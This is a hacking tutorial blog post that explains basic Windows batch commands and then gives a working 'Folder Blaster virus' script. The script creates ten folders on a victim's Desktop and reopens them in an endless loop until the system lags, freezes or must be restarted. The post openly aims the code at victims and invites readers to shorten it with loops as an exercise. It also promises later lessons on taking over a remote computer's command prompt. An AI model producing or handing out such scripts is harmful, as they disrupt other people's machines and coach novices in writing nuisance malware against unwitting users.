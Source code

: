 ```yaml
---
title: Folder blaster, The more annoying the better
path: /folder-blaster
tags:
  - Cyber Security
metaImage: assets/folder-blaster.jpeg
featuredImage: ./assets/folder-blaster.jpeg
excerpt: The commands we use to make batch files are actually the same commands
  first implemented in MS-DOS (An ancient microsoft OS). These DOS(Disk
  Operating System) commands can also be used in the command prompt window.
  Whatever your batch file does, you can do it through the command line
  interface (CLI).
created: 2020-06-14T13:55:57.348Z
updated: 2020-06-14T13:55:57.420Z
---
```

The commands we use to make batch files are actually the same commands first implemented in MS-DOS (An ancient microsoft OS). These DOS(Disk Operating System) commands can also be used in the command prompt window. Whatever your batch file does, you can do it through the command line interface (CLI).

Start “Run”, or hit \[Windows key + R]. Type “cmd”, and you’re presented with the CLI. You can type “help” to get a list of commonly used commands and their functions. I recommend you try out each and every single command you can find. Hacking is getting more and more user friendly everyday, CLIs are being replaced by GUIs (Graphical User Interfaces) - meaning in most places you won’t have to actually type in the commands, you can just select an option and press a button. But as of now, this is a work in progress. With more advanced hacking techniques, specially the ones that involve using BackTrack tools, you will find that majority of the hacks are still done through the CLI (More on this, later).

You will soon be learning how to hack into a remote computer and get the CMD window of the victim’s computer. Hence, I recommend getting used to the CLI, as soon as possible, as much as possible. Before getting to the code, let’s take a look at a couple of commands.

md - (or mkdir) - Make Directory. This command is used to create a directory (a folder). The command:

`md abcd`

..will create a folder in the current directory named “abcd”.

cd - Change Directory. This command is used to change the current directory. The following command:

`cd C:\`

..will take the program (your batch file) to the Root folder and:

`cd C:\Users`

..will take you to the folder called Users in the C drive. You can change where you “mkdir” by using “cd”. (You can now create folders in any directory you like)

Here we’ve got the Folder Blaster virus. Again, this one’s fairly easy to understand. What we’re doing below is creating a bunch of folders, opening them all at once and keeping them open, effectively hogging a big portion of the screen and memory causing the windows to lag, freeze up and sometimes crash.

```shell
@echo off
cd ./Desktop
md 1
md 2
md 3
md 4
md 5
md 6
md 7
md 8
md 9
md 0
:checkpoint
start 1
start 2
start 3
start 4
start 5
start 6
start 7
start 8
start 9
start 0
goto checkpoint
```

So, we begin by turning off echo. Then we change the directory to Desktop. Now we create ten folders with names 0-9. We setup a label and start opening up all the 10 folders. Now the final statement causes an infinite loop. Of course, if the folder is already opened it will not be opened again. But the use of this infinite loop is if the user attempts to close the folder, the loop is still going on and it will send a message to open that folder again. So the victim will be stuck as every time s/he closes a folder it opens up again, eventually making them give up and restart the system.The above code can be made much shorter with the use of LOOPs, as discussed below. We start by creating a variable and setting it’s value to 0. We use this variable as a check to let the computer know when to come out of the loop. Take a look at the code first:

```shell
@echo off
set /a i=0
:loop
if %i%==10 goto end
echo This is iteration %i%.
set /a i=%i%+1
goto loop
:end
```

“set” is used to define and initialize a variable. Here we create a variable called “i” and set it’s value to zero. After setting up a label, we check if the value of the variable “i” (given by %i%) is equal to 10, and if it is we “goto” the label end (the program ends when this happens). Now we “echo” (send a message) to notify the user which iteration is currently running. In the next step we increment the value of “i” by one and then go back to the “if” statement.

So the loop runs ten times (0-9), and then stops. The above was not a virus, but a simple program. Earlier, I told you that the above Folder Blaster virus code can be made shorter by using loops. You know how to make the virus, and now you know how to use loops. Combining the two of them, I leave as an exercise for the wannabe hacker. (HINT: See the folder names up top going from 0-9 ? You can just replace them with %i% in the above loop.)

- - -

Next up, we’re going to equip you with the tools you need to be able to start creating your own viruses. Let’s head over there and [learn a bit more about batch file viruses](https://blog.leewardslope.com/frequently-asked-questions-about-batch-files).